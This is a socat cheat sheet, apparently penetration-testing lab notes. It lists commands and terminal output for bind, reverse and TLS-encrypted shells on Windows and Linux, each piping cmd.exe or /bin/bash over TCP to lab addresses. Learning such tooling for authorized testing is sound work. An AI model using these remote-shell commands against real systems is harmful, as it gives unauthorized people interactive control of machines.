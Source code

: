 # Cheat Sheet

# socat

## Bind Shell

### Windows

    PS C:\Users\gothburz> .\socat.exe TCP-LISTEN:443,fork EXEC:cmd.exe,pty,stderr,setsid,sigint,sane

    gothburz@kali:~$ socat FILE:`tty`,raw,echo=0 TCP:192.168.134.10:443
    Microsoft Windows [Version 10.0.16299.15]
    (c) 2017 Microsoft Corporation. All rights reserved.
    
    C:\Tools\practical_tools\socat>

### Linux Example

    gothburz@kali:~$ sudo socat TCP-LISTEN:443,fork EXEC:/bin/bash

    PS C:\Users\gothburz> .\socat.exe TCP:192.168.119.134:443 STDOUT
    ip addr | grep tun0
    4: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 100
        inet 192.168.119.134/24 brd 192.168.119.255 scope global tun0

## Reverse Shell

### Windows

    PS C:\Users\gothburz> .\socat.exe TCP:192.168.119.134:443 EXEC:cmd.exe,pty,stderr,setsid,sigint,sane

    gothburz@kali:~$ sudo socat TCP-LISTEN:443 STDOUT
    /bin/bash: line 2: $'\f\fcls': command not found
    2020/02/17 16:12:03 socat[12060] E waitpid(): child 12061 exited with status 127
    Microsoft Windows [Version 10.0.16299.15]
    (c) 2017 Microsoft Corporation. All rights reserved.
    
    C:\Users\gothburz>

### Linux

    PS C:\Tools\practical_tools\socat> .\socat.exe -d -d TCP4-LISTEN:443 STDOUT
    2020/02/17 13:08:17 socat[796] N listening on AF=2 0.0.0.0:443

    gothburz@kali:~/PWK2.0/4-practical-tools/socat$ sudo socat TCP:192.168.134.10:443,fork EXEC:/bin/bash

## Encrypted Bind Shell

### Windows

    PS C:\Tools\practical_tools\socat> .\socat.exe OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:cmd.exe,pty,std
    err,setsid,sigint,sane

    gothburz@kali:~$ socat - OPENSSL:192.168.134.10:443,verify=0
    Microsoft Windows [Version 10.0.16299.15]
    (c) 2017 Microsoft Corporation. All rights reserved.
    
    C:\Users\gothburz>

### Linux

    gothburz@kali:~$ sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash

    PS C:\Users\gothburz> socat.exe - OPENSSL:192.168.119.134:443,cert=bind_shell.pem,verify=0

## Encrypted Reverse Shell

### Windows

    PS C:\Users\gothburz> .\socat.exe OPENSSL:192.168.119.134:443,cert=bind_shell.pem,verify=0,fork EXEC:cmd.ex
    e,pty,stderr,setsid,sigint,sane

    gothburz@kali:~$ sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0 STDOUT
    Microsoft Windows [Version 10.0.16299.15]
    (c) 2017 Microsoft Corporation. All rights reserved.
    
    C:\Users\gothburz>
    

### Linux

    PS C:\Tools\practical_tools\socat> .\socat.exe OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0 STDOUT

    gothburz@kali:~$ sudo socat OPENSSL:192.168.134.10:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
